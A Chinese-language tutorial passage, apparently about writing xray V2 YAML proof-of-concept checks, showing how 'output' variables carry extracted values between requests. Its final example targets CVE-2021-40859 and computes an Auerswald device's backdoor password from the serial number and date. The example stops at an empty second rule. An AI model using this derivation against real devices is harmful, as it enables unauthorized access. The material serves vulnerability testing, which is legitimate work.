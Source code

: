   
  
**V2Tips**  
  
  
相对于V1版本，V2版本新增的output要比之前的search好用一些，可以在output中处理一些在下个包中会使用到的变量。例如返回的body中的数据为：  
  
```
["ooo":1,"date":"15.2.2021","tart":"154853254","macaddr":"00:00:00:00:00:00"]
```  
  
  
你需要匹配date的内容和tart的内容，并对tart的内容进行md5加密再截取，还需要拼接，就可以这样写：  
  
```
rules:
    r1:
        # 此处为一个 http request 的例子
        request:
            method: GET
            path: "/"
        expression: |
            response.status==200 
        # 相比于 V1 版本新增
        output:
            search: '"date\":\"(?P<date>.+?)\",\"tart".bsubmatch(response.body)'   
            date: search['date']
            search: '"tart\":\"(?P<tart>.+?)\",\"mac".bsubmatch(response.body)'   
            tart: search['tart']
            tartmd5: substr(md5(tart),0,16)  # 对匹配到的tart的内容进行md5加密，然后再截取前十六位
            tartty: date + tartmd5 + "asd"  # 对匹配到的date，格式化好后的tart，字符串"asd"进行拼接
    r2:
        # 上述定义出的变量的使用
        request:
            method: POST
            path: "/"
            body:
              a={{date}}&b={{tart}}&c={{tartmd5}}&d={{tartty}}
        expression: |
            response.status==200
```  
  
  
需要注意，search后不能再跟search，应先将需要的数据提取出来，再进行下一个search，否则会匹配不到数据。  
  
##### 手搓Digest auth认证  
  
  
通过上述的技巧，其实可以发现，我们可以通过对返回包中内容的处理，完成Digest auth认证。以下为poc实例：  
  
```
```yaml
name: poc-yaml-auerswald-cve-2021-40859
transport: http
set:
    dcnonce: randomLowercase(8)
rules:
    r1:
        request:
            method: GET
            path: "/about_state"
        expression: response.status == 200 && r'serial.*?\d+.,'.bmatches(response.body) && r'date.+?20[0-9][0-9].,'.bmatches(response.body)
        output:
            search: '"serial\":\"(?P<serial>.+?)\",\"date".bsubmatch(response.body)'
            serial: search["serial"]
            search1: '"date\":\"(?P<date>.+?)\",\"macaddr".bsubmatch(response.body)'            
            date: search1["date"]
            HA: serial + "r2d2" + date
            password: substr(md5(HA),0,7)            
    r2:
```